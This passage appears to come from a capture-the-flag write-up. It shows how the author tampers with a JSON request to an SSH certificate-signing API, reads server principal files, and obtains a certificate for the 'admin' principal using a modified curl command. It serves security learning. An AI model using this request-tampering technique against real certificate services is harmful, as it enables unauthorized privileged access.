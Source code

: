 So I created a new key pair for `alabaster`. Opened the DevTools and signed it
normally. Then right-click and copy as cURL command and then modified the
payload.

So the new payload was:

```json
{
    "ssh_pub_key": "ssh-rsa [removed] alabaster",
    "principal": "alabaster"
}
```

And it didn't work. Mainly because I had not realized `principal` and `username`
are different. So I had to login as monitor and look at the sshd configuration
to figure out what principal is used server-side.

It's in `/etc/ssh/auth_principals` and we have two files there:

```
$ ls /etc/ssh/auth_principals/
alabaster  monitor`
$ cat monitor
elf
$ cat alabaster
admin
```

So we need to use the principal `admin`.

```json
{
    "ssh_pub_key": "ssh-rsa [removed] alabaster",
    "principal": "admin"
}
```

```json
$ curl 'https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl' \
  -H 'authority: northpole-ssh-certs-fa.azurewebsites.net' \
  -H 'accept: */*' \
  -H 'content-type: application/json' \
  -H 'origin: https://northpole-ssh-certs-fa.azurewebsites.net' \
  -H 'referer: https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl' \
  --data-raw '{"ssh_pub_key":"ssh-rsa [token] alabaster","principal":"admin"}' \
  --compressed
```

The result had this:

```json
{
    "ssh_cert": "rsa-sha2-512-cert-v01@openssh.com [removed] ",
    "principal": "admin"
}
```


[c-c]: https://developer.chrome.com/docs/devtools/application/cookies
[comb]: https://www.youtube.com/watch?v=27rE5ZvWLU0
[linux-lpe]: https://payatu.com/blog/a-guide-to-linux-privilege-escalation/
[lug]: https://www.youtube.com/watch?v=ycM1hBSEyog
[cld]: https://www.cloudflare.com/learning/email-security/dmarc-dkim-spf/
[kusto]: https://detective.kusto.io/sans2023
[clus]: https://dataexplorer.azure.com/freecluster